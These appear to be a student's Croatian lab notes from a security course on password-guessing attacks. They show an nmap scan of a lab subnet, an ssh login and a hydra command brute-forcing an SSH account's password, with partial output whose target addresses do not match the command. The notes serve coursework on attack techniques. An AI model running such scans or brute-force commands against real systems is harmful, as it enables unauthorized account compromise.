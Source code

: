 -kao što vidimo na slici, svaka kriptografska hash funkcija ima različitu brzinu, no sporost neke funkcije ne znači da je ona lošija, kao što ni brzina ne znači da je ona bolja

## 5. laboratorijske vježbe

11.1.2022.

Napomena: vježbe nadoknađujemo ovaj put zbog tehničkih problema na zadnjim vježbama

Na ovim vježbama izvršavamo online i offline password guessing napade

Razlika među njima je što u online napadu direktno komuniciramo sa serverom pa nije toliko bitna naša oprema, dok offline uopće ne komunicira te se bazira na hardware

### Online password guessing napad

-otvaramo bash shell u WLS-u i pingamo server kako bi provjerili jesmo li na istoj mreži

```powershell
ping a507-server.local
```

Za online password  guessing napad koristit ćemo alat za skeniranje mreže i otkrivanje potencijalnih sigurnosnih ranjivosti. Također koristit ćemo Secure Shell (ssh). To je mrežni protokol koji korisnicima omogućuje uspostavu sigurnog komunikacijskog kanala između dva računala putem računalne mreže.

-instaliramo navedeni alat i testiramo ga pomoću sljedećih linija koda

```powershell
sudo apt-get update
sudo apt-get install nmap

nmap
```

-zatim smo koristili zadanu naredbu → `nmap -v 10.0.15.0/28` i dobili sljedeći rezultat

```powershell
Initiating Ping Scan at 13:20
Scanning 16 hosts [2 ports/host]
Completed Ping Scan at 13:20, 1.23s elapsed (16 total hosts)
```

-kao što smo naveli, koristit ćemo ssh a pokrećemo ga:

```powershell
ssh jukic_borna@10.0.15.10
```

Koristit ćemo aplikaciju hidra (koja je već bila instalirana) u kojoj ćemo pretpostavit da je šifra dugačka između 4 i 6 slova te da su sva slova mala, no zbog prevelikog broja kombinacija ovo bi predugo trajalo pa smo odustali nakon nekoliko pokušaja

```powershell
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ hydra -l jukic_borna -x 4:6:a 10.0.15.10 -V -t 1 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2021-12-20 13:39:53
[DATA] max 1 task per 1 server, overall 1 task, 321254128 login tries (l:1/p:321254128), ~321254128 tries per task
[DATA] attacking ssh://10.0.15.5:22/
[ATTEMPT] target 10.0.15.1 - login "jukic_borna" - pass "aaaa" - 1 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "jukic_borna" - pass "aaab" - 2 of 321254128 [child 0] (0/0)
...
```

